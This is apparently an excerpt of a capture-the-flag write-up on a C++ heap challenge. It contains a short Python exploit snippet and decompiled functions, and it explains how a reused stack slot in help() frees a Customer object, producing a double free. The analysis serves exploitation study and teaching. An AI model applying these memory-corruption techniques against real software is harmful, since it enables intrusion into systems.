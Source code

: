 ```python
add_order(0, b'2.121995791e-314', b' '+b'x'*0x4f)
add_order(0, b'4.2030e4', b' '+b'y'*0x4f)
for i in range(10):
    print_help(False)
show(0)
```

Double free is caused by using `help()` twice after selecting a customer in `alter_customer()`. It turns out that some values in stack frames are reused and not cleared. In `alter_customer()`, `rbp-0x80` is occupied by a pointer to an allocated `Customer`, then in `help()`, that `rbp-0x80` is reused to allocate a local `Order`. 

```c
unsigned __int64 alter_customer(void)
{	
  // [...]
  Customer *v11; // [rsp+20h] [rbp-80h]
  Order *v12; // [rsp+28h] [rbp-78h]
  char v13[32]; // [rsp+30h] [rbp-70h] BYREF
	// [...]
  v11 = *(Customer **)std::vector<Customer *>::operator[](customers, v8);	// v11 is a pointer to an allocated memory
	// [...]
  return v15 - __readfsqword(0x28u);
}
```

Then when the program calls `~Order()`, it actually frees a `Customer` from previous stack frame, hence the double free. Moreover, freed customer is not removed from its vector `customers`.

```c
unsigned __int64 help(void)
{
  // [...]
  char v4[16]; // [rsp+10h] [rbp-80h] BYREF
  char v5[88]; // [rsp+20h] [rbp-70h] BYREF
  // [...]
  Order::Order((Order *)v4);
  Customer::Customer((Customer *)v5);
  // [...]
  Customer::~Customer((Customer *)v5);
  Order::~Order((Order *)v4);	// v4, corresponding to the above v11, is free

  return v6 - __readfsqword(0x28u);
}
```

```c
void __fastcall Order::~Order(void **this)
{
  if ( *this )
    operator delete(*this, 1uLL);
}
```
